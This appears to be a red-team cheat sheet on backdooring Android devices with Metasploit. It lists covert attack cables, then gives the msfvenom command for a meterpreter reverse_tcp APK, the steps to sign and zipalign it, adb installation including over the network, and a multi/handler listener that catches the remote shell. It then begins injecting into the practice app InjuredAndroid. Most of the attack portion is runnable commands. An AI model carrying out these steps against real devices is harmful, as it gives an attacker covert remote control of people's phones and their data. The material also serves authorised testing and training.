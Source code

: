 > ❗ Always use the following Hardware on permitted targets, from a Red Team perspectice.
>
> - [O.MG Cable - Hak5](https://shop.hak5.org/products/omg-cable)
> - [USB Ninja Cable - Hacker Warehouse](https://hackerwarehouse.com/product/usb-ninja-cable/)

### Create Generic APK with Metasploit

The following command will generate a `Main Activity` app, that makes the Android device reach the Kali VM machine establishing a session.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> R> android.apk
```

- Sign the `android.apk` and upload it to the device.

```bash
# Create a Keystore
keytool -genkey -v -keystore demo.keystore -alias demokeys -keyalg RSA -keysize 2048 -validity 10000

# Sign the APK
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore demo.keystore -storepass demopw android.apk demokeys

# zipalign the APK
zipalign -v 4 android.apk android_signed.apk
```

```bash
adb install android_signed.apk

# or via network (to device or emulator)
# adb -H 192.168.56.103 -P 5555 install android_signed.apk
```

- Open a `meterpreter shell` and listen for the connection

```bash
msfconsole
use exploit/multi/handler
# set LHOST and LPORT same as in the msfvenom command
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
```

### Inject App with Metasploit

Make sure `Apktool` is updated.

Download `InjuredAndroid`.

```bash
mkdir ~/apks
cd ~/apks

wget -O InjuredAndroid.apk https://github.com/B3nac/InjuredAndroid/releases/download/v1.0.12/InjuredAndroid-1.0.12-release.apk

adb install InjuredAndroid.apk
```

